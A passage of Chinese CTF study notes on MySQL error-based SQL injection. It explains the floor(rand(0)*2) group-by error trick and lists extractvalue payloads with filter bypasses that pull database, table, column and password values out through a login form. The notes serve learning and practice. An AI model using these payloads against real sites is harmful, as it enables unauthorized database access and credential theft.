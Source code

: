     - *原理*：利用`select count(*),floor(rand(0)*2)x from information_schema.character_sets group by x;`导致数据库报错，通过concat函数连接注入语句与floor(rand(0)*2)函数，实现将注入结果与报错信息回显的注入方式。

    - floor (rand(0)*2)函数

        floor函数的作用就是返回小于等于括号内该值的最大整数。
        rand()本身是返回0~1的随机数，但在后面*2就变成了返回0~2之间的随机数。

        配合上floor函数就可以产生确定的两个数，即0和1。
        并且结合固定的随机数种子0，它每次产生的随机数列都是相同的值。

    - count（*）函数

        count（*）函数作用为统计结果的记录数。

        这就是对重复的数据进行整合计数，x就是每个name的数量
  - eg.

    `id=1' union select count(*),concat(floor(rand(0)*2),0x3a,(select concat(table_name) from information_schema.tables where table_schema=database() limit 1,1)) x from information_schema.schemata group by x#`

- payload

    空格 ->  ()
    =    ->  like

    爆破数据库

    `1'or(extractvalue(1,concat(0x7e,(select(database())),0x7e)))`

    爆破表

    `?username=admin&password=admin'or(extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek')))))#`

    爆破列

    `1'or(extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e)))#`

    获取表内信息

    `1'or(extractvalue(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e)))#`

    如果substr未过滤的话可以通过substr函数进行两次读取获取完整的flag值

    或者用right函数,获取剩余flag

    `1'or(extractvalue(1,concat(0x7e,(select(right(password,20))from(H4rDsq1)),0x7e)))#`

    或者用regexp，原理是当正则匹配到flag值时可以正常返回已经读取到的32位flag值，当匹配错误时，则会返回密码错误

    `1'or(extractvalue(1,concat(0x7e,(select(password)from(H4rDsq1)where(password)regexp('^f')),0x7e)))#`

## PHP反序列化

[CTFPHP反序列化总结](https://blog.csdn.net/solitudi/article/details/113588692?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522166234073116781683934559%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=166234073116781683934559&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-113588692-null-null.article_score_rank_blog&utm_term=%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96&spm=1018.2226.3001.4450)
